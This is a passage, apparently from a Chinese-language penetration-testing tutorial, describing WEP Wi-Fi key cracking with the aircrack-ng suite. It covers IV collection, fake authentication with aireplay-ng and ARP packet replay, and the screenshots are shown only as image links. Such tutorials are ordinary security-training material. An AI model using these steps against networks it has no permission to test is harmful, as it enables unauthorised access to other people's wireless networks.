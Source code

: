 以下屏幕截图显示了前面命令的输出：

![](img/728e79cd-1cb3-4407-bfd9-5d5bf20806bc.png)

1.  现在我们需要观察信标和数据列；这些数字从`0`开始，并随着数据包在路由器和其他设备之间传递而增加。我们至少需要 20,000 个初始化向量才能成功破解**有线等效隐私**（**WEP**）密码：

1.  为了加快进程，我们打开另一个终端窗口并运行`aireplay-ng`，并使用以下命令执行伪身份验证：

```
 aireplay-ng -1 0 -e <AP ESSID> -a <AP MAC> -h <OUR MAC> wlan0mon 
       {fake authentication}
```

以下屏幕截图显示了前面命令的示例：

![](img/6d610a66-b5fb-4a61-8029-48b325d8517e.png)

1.  现在让我们使用以下命令进行 ARP 数据包重放：

```
 aireplay-ng -3 -b BSSID wlan0mon
```

以下屏幕截图显示了前面命令的示例：

![](img/89ef9aa4-2a73-40af-91da-e77be873bada.png)
